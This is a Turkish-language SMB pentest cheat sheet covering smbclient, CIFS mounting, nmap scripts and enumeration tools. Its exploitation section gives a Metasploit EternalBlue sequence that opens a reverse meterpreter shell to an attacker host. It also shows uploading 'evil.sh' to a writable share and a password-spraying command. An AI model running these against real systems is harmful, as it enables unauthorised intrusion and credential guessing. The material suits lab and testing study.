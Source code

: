 ## 1️⃣ SMB Temelleri

- **SMB (Server Message Block)**: Windows dosya paylaşımı protokolü. Linux’ta `samba`, `smbclient`, `cifs-utils` ile kullanılır.
    
- **Portlar**:
    
    - 139/tcp → NetBIOS Session Service
        
    - 445/tcp → Direct SMB over TCP
        

---

## 2️⃣ SMB Bağlantısı ve Dosya Listeleme

### smbclient (Windows’ta `net use` gibi)

```bash
# Share'e bağlanmak
smbclient //TARGET_IP/ShareName -U username

# Şifresiz denemek
smbclient -L //TARGET_IP -N
```

- `-L` → Share listesini gösterir.
    
- `-U user` → Kullanıcı belirtir.
    
- `-N` → Şifre sormadan deneme.
    

**Örnek:**

```bash
smbclient //192.168.1.10/Public -U guest
```

İçinde gezinmek için:

```bash
ls         # dosya listele
cd folder  # klasöre gir
get file   # indir
put file   # yükle
```

---

## 3️⃣ CIFS ile Mount Etme

```bash
# Mount etmek
sudo mount -t cifs //TARGET_IP/ShareName /mnt/share -o username=user,password=pass,vers=3.0
```

- `/mnt/share` → Local mount point
    
- `vers=2.0` veya `3.0` → SMB versiyonu (server’a göre değişir)
    
- Şifresiz erişim:
    

```bash
sudo mount -t cifs //192.168.1.10/Public /mnt/share -o guest,vers=3.0
```

- Dosya izinlerini yönetmek için:
    

```bash
-o uid=$(id -u),gid=$(id -g)
```

---

## 4️⃣ Nmap ile SMB Tarama

```bash
# SMB portlarını taramak
nmap -p 139,445 TARGET_IP

# SMB servis ve versiyon tespiti
nmap -p 445 --script smb-protocols,smb-os-discovery TARGET_IP

# Tüm SMB scriptleri ile tarama
nmap -p 445 --script smb* TARGET_IP
```

---

## 5️⃣ Enum / Bilgi Toplama Araçları

### enum4linux

```bash
enum4linux TARGET_IP
# Windows kullanıcıları, paylaşımlar, group'lar
```

### crackmapexec (pentest için)

```bash
# SMB login testi
crackmapexec smb TARGET_IP -u user -p pass

# Domain bilgisini çekmek
crackmapexec smb TARGET_IP --shares
```

### smbmap

```bash
smbmap -H TARGET_IP -u username -p password
# Share ve izinleri listele
```

---

## 6️⃣ SMB Exploitation (Sızma Testleri)

> **Not:** Bu bölüm yalnızca laboratuvar/test ortamında kullanılmalıdır.

### Metasploit

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST TARGET_IP
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST YOUR_IP
exploit
```

### smbclient ile writable share testi

```bash
smbclient //TARGET_IP/Public -U user
put evil.sh
```

- Writable share → Payload yükleme imkanı.
    

---

## 7️⃣ SMB Versiyon ve Güvenlik

- SMBv1 → Eski, exploit riski yüksek (EternalBlue gibi)
    
- SMBv2/v3 → Daha güvenli, modern Windows ve Linux destekli
    
- Linux’ta versiyon kontrolü:
    

```bash
smbclient -L //TARGET_IP -m SMB2
```

---

## 8️⃣ Pratik İpuçları

- Share isimlerini hızlı görmek için: `smbclient -L //IP -N`
    
- Şifreleri tahmin etmek için: `crackmapexec smb IP -u users.txt -p passwords.txt`
    
- Dosya transferinde hızlı yol: mount edip rsync ile kopya çekmek
    
- smbmap → share üzerinde yetki ve writable kontrolü için ideal
    

---

### 9️⃣ Özet Tablo

|Komut|Amaç|
|---|---|
|`smbclient -L //IP`|Share listesi|
|`smbclient //IP/Share -U user`|Share’e bağlan|
|`mount -t cifs //IP/Share /mnt`|Share’i mount et|
|`enum4linux IP`|Windows info toplama|
|`nmap -p445 --script smb* IP`|SMB tarama|
|`smbmap -H IP -u user -p pass`|Share izinlerini listele|
|`crackmapexec smb IP -u user -p pass`|SMB login test / enum|

---

💡 **Not:** Linux’ta SMB testi yaparken, hem `smbclient` hem `mount` yöntemlerini bilmek çok pratik. Tarama ve exploit için `nmap`, `enum4linux`, `smbmap` ve `crackmapexec` işini kolaylaştırır.

---